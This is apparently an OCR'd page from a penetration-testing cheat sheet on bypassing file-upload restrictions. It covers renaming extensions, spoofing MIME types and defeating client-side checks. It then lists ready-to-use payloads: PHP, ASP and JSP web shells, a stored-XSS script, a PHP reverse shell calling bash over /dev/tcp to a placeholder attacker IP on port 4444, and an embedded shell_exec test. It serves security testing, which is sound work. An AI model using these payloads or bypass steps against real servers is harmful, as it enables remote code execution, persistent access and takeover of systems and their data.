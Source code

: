    * Upload no-extension files:
      - Example: Rename test.php to test.

 __3. Test MIME Type Validation__

              Some systems validate file types based on MIME types:

  * Modify MIME type using tools:

    - Use Burp Suite or Postman to intercept the upload request and modify the Content-Type header.

      - Example: Change image/png to application/x-php.

    * Mismatch MIME type:

      - Upload a PHP file with a MIME type of image/jpeg.

 __4. Bypass Client-Side Validation__

   *  Disable JavaScript:
       - If file restrictions are enforced on the client side, disabling JavaScript might bypass them.

   *  Intercept Requests:

       - Use Burp Suite or a similar proxy to modify the upload request before it reaches the server.

 __5. Upload Malicious Files__  

  * Scenario 1: Execute Code. [Upload a script that the server might execute-web-shell.]

    - PHP:

        PayLoad: ```<?php system($_GET['cmd']); ?>```  

    - ASP:

        PayLoad: ```<% execute(request("cmd")) %>```  

    - JSP:

        PayLoad: ```<% out.println(Runtime.getRuntime().exec("cmd /c dir").getInputStream()); %>```  

 * Scenario 2: HTML/JS Injection

    - Malicious HTML:
        
        PayLoad: ```<script>alert('XSS');</script>``` 

        ---If uploaded files are rendered as HTML, this could lead to stored XSS.               
  
 * Scenario 3: Reverse Shell
    
    - Upload a reverse shell script:

        PayLoad: ```<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/attacker-ip/4444 0>&1'"); ?>```

 __6. Analyze File Content Handling__

 * Upload Files with Embedded Commands:

    - Example: A .txt file containing:
        PayLoad: ```<?php echo shell_exec('ls'); ?>```

        ---Observe if the server interprets or executes the content.
